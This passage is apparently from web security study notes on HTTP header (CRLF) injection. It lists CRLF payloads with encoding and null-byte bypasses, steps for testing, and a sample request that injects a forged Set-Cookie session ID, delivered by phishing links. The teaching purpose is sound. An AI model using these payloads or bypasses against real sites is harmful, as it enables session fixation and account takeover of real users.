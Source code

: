 
**Payloads & Bypasses:**

```
%0d%0a                → CRLF injection
%00%0d%0a              → Null byte + CRLF
%250d%250a             → Double-encoded CRLF
%%0d0d%%0a0a           → Encoding obfuscation
```

---

**Detection Steps (HACK STEPS):**

1. Identify points where your input appears in response headers.
2. Inject `%0d%0a` and check if the server includes new lines in headers.
3. Test with both CR and LF individually if needed.
4. If blocked, try bypass payloads above.
5. Always view **raw HTTP headers** in an intercepting proxy (Burp, OWASP ZAP) — HTML views will hide them.

---

### **2. Injecting Cookies**

**How It Works:**

* If you control part of a `Set-Cookie:` header, you can create your own cookies in the victim’s browser.
* Malicious cookies can persist across sessions if not marked as `Session` only.

---

**Example – Setting a Fake Session ID:**

```http
GET /settings/12/Default.aspx?Language=English%0d%0aSet-Cookie:+SessId=120a12f98e8 HTTP/1.1
Host: mdsec.net
```

**Response:**

```http
HTTP/1.1 200 OK
Set-Cookie: PreferredLanguage=English
Set-Cookie: SessId=120a12f98e8
```

Now, any victim who clicks this malicious link gets a **forged session cookie**.

---

**Delivery Mechanisms:**
Same as XSS — send via:

* Email phishing link
* Malicious third-party site
* Shortened URLs

---
